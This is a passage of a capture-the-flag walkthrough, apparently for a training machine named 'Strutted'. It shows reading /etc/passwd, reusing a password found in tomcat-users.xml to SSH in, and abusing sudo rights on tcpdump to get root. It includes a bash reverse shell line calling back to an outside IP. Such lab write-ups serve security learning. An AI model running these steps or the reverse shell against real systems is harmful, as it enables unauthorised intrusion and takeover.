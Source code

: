 ```bash
```
# Shell as james
Checking /etc/passwd, we see:
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
```
Tried using the credentials we found earlier at the beginning, but didn't work for james. Then I found another password in tomcat-users.xml file in /var/lib/tomcat9/conf

<img width="1470" height="1032" alt="2025-08-05 130322" src="https://github.com/user-attachments/assets/46f6196f-ecca-4a95-9857-7f83b07809d1" />
(I got stuck for a bit here because I kept trying su - james, but it failed.)

Use ssh to autenticate as james, and get the first flag
<img width="590" height="98" alt="2025-08-05 134050" src="https://github.com/user-attachments/assets/ae4c6cff-e15a-4240-88a0-6bfa32b11f52" />

# Privilege Escalation
Checking sudo privileges
```bash
james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump

```
Easy win. According to [GTFOBins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo), we can abuse tcpdump binary to get root shell.

<img width="1455" height="392" alt="2025-08-05 140040" src="https://github.com/user-attachments/assets/68e706d9-a95a-400c-9e68-f7a7a1e7f774" />

I will just change the "COMMAND" variable to a `/bin/bash -i >& /dev/tcp/10.10.14.73/9002 0>&1` and start a local listener on port 9002.

<img width="1144" height="377" alt="2025-08-05 140708" src="https://github.com/user-attachments/assets/21e4788b-5dc3-4595-86b6-97ab921d29d6" />
And that’s it, root flag grabbed, box done.
